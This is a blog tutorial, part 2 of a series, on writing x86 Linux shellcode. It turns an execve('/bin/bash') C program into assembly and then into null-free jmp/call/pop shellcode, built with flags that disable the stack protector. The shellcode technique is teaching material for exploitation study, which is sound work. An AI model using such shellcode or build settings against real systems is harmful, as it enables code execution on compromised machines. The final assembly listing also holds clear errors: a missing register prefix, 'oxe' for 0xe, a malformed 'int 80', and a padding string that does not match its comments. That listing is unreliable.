 ```yaml
---
title: "x86 a Super quick Guide to Shellcode Writing Part 2:"
layout: post
date: 2019-03-29 12:19:00
image: /assets/images/markdown.jpg
headerImage: false
tag:
- gdb
- reversing
- debugging
- assembly
- linux
- exploit
- buffer overflow
- shellcode
star: true
category: blog
author: MaskedFox
description: Basics of Shellcode writing Part 2
---
```



# **Writing Shellcode Part 2**

## **Disassembling Execve and Executing Shellcode for Execve:**

**man execve**

```bash
EXECVE(2)                  Linux Programmer's Manual                 EXECVE(2)

NAME
       execve - execute program

SYNOPSIS
       #include 

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);

DESCRIPTION
       execve()  executes the program pointed to by filename.  This causes the
       program that is currently being run by the calling process  to  be  re‐
       placed  with  a  new  program,  with newly initialized stack, heap, and
       (initialized and uninitialized) data segments.
```

```c
/***************
 *@Title: shell.c
 *
 *(Disassembling Execve)
 *
 * *************/
#include 
#include 

int main()
{
	char *args[2];

 	args[0] = "/bin/bash";
	args[1] = 0x0;
	execve(args[0], args, 0x0);
	
	exit(0);
}

```

Let's compile the above program and run it

1.  **compile it**
    
    ```c
    gcc -ggdb -mpreferred-stack-boundary=2 -m32 -fno-stack-protector -z execstack shell.c -o shell
    ```
    
2.  **run it**
    
    ```c
    
    root@mfox:~/Documents# ./shell
    root@mfox:/root/Documents# 
    ```
    

Voila! We got ourselves a shell

Lets look at what happen when we disas the main function of our program:

```bash
root@mfox:~/Documents# gdb -q ./shell
Reading symbols from ./shell...done.
(gdb) disas main
Dump of assembler code for function main:
   0x000011a9 <+0>:	push   ebp
   0x000011aa <+1>:	mov    ebp,esp
   0x000011ac <+3>:	push   ebx
   0x000011ad <+4>:	sub    esp,0x8
   0x000011b0 <+7>:	call   0x10b0 <__x86.get_pc_thunk.bx>
   0x000011b5 <+12>:	add    ebx,0x2e4b
   0x000011bb <+18>:	lea    eax,[ebx-0x1ff8]
   0x000011c1 <+24>:	mov    DWORD PTR [ebp-0xc],eax
   0x000011c4 <+27>:	mov    DWORD PTR [ebp-0x8],0x0
   0x000011cb <+34>:	mov    eax,DWORD PTR [ebp-0xc]
   0x000011ce <+37>:	push   0x0
   0x000011d0 <+39>:	lea    edx,[ebp-0xc]
   0x000011d3 <+42>:	push   edx
   0x000011d4 <+43>:	push   eax
   0x000011d5 <+44>:	call   0x1050 
   0x000011da <+49>:	add    esp,0xc
   0x000011dd <+52>:	push   0x0
   0x000011df <+54>:	call   0x1030 
End of assembler dump.

```

Now, lets see the above from the stack point of view: Remeber the Stack growth from High to Low memory as noted here: https://stackoverflow.com/questions/4560720/why-does-the-stack-address-grow-towards-decreasing-memory-addresses

```bash
******************    High Memory                    
*     (4 Bytes)  *
******************
*    EBP old     *
******************
*    0x0 = Null  * 
******************    EAX = p(/bin/bash)
*    p(/bin/bash)*
******************
*    0x0 = NULL  * 
******************    EDX = /bin/bash
*    EAX         *
******************
*    EDX         *
******************    Low Memory
```

Cool, Now that we understand better whats happening with our code, then we can build our Assembly:

```nasm
.data
    Bash:
        .asciz "/bin/bash"
        
    Nulll:
        .int 0;
        
    AddrToBash:
        .int 0
        
    Null2:
        .int 0
        
.text
    .globl _start
    
_start:
    # Execve routine
    
    movl $Bash, AddrToBash
    movl $11, %eax
    movl $Bash, %ebx
    movl $AddrToBash, %ecx
    movl $Null2, %edx
    int $0x80
    
    # Exit Routine
    
    Exit:
    movl $10, %ebx
    movl $1, %eax
    int $0x80 
```

Ok, lets review the above ^:

```
$11 is the syscall to execve
$Bash is the pointer to "/bin/bash"
$AddrToBash is the pointer to variable of Arguments
$Null is just a Null or 0x0
```

Cool, now lets assemble the program above:

```bash
root@mfox:~/Documents# as -ggstabs -o exec.o  exec.s
```

Now let's link it and Lets run it:

```bash
root@mfox:~/Documents# ld -o exec exec.o
root@mfox:~/Documents# ./exec 
root@mfox:/root/Documents# 

```

Cool it works!, lets see the opcodes for the above program:

```bash
root@mfox:~/Documents# objdump -d exec

exec:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	c7 05 0e a0 04 08 00 	movl   $0x804a000,0x804a00e
 8049007:	a0 04 08 
 804900a:	b8 0b 00 00 00       	mov    $0xb,%eax
 804900f:	bb 00 a0 04 08       	mov    $0x804a000,%ebx
 8049014:	b9 0e a0 04 08       	mov    $0x804a00e,%ecx
 8049019:	ba 12 a0 04 08       	mov    $0x804a012,%edx
 804901e:	cd 80                	int    $0x80

08049020 :
 8049020:	bb 0a 00 00 00       	mov    $0xa,%ebx
 8049025:	b8 01 00 00 00       	mov    $0x1,%eax
 804902a:	cd 80                	int    $0x80

```

There are too many Zeros ('0') in our opcode. So it not possible to pushe the above as shellcode.

```nasm
The Shellcode contains Nulls = '0' in it, thus
cannot be inserted into a character array
-Replace all Null Statements

Uses hardcoded addresses and thus will not work on all machines
-Setup relative addressing
```

So, lets improve our assembly code:

```nasm
#execVeShell.s

_start:

    jmp myCallStatement
    shellcode:
        popl %esi                #pop register ESI which is the start of "bin/bashAAAAABBBBCCCCC"
        xorl %eax, %eax          # Move Zeros to EAX
        movb %al, 0x9(%esi)      # Move a Zero or NUll to "A"
        movl esi, 0xa(%esi)      # Moves Address of ESI to "BBBB", now "MNOP"
        movl %eax, oxe(%esi)     # Moves Zeros to "CCCC" Now, "0000"
        movb $11, %al            # Moves 11 into AL(Which is the Call sys Execve)
        movl %esi, %ebx          # Moves "/bin/bash\0" into EBX
        leal 0xa(%esi), %ecx     # Moves "MNOP" into ECX
        leal 0xe(%esi), %edx     # Moves "0000" into EDX
        int 80
    
    myCallStatement:
        call shellcode
        shellVariables:
            .ascii "/bin/bashABBBBCCCC"
                

```

Lets link and compile this:

```
as -o execVeShellcode.o ExecVeShellcode.s

ld -o execVeShellcode execVeShellcode.o
```

**#Important Resources:**

These serious of blogs come from the amazing tutotials from Security Tube: https://youtu.be/e2jQgOVkJPM
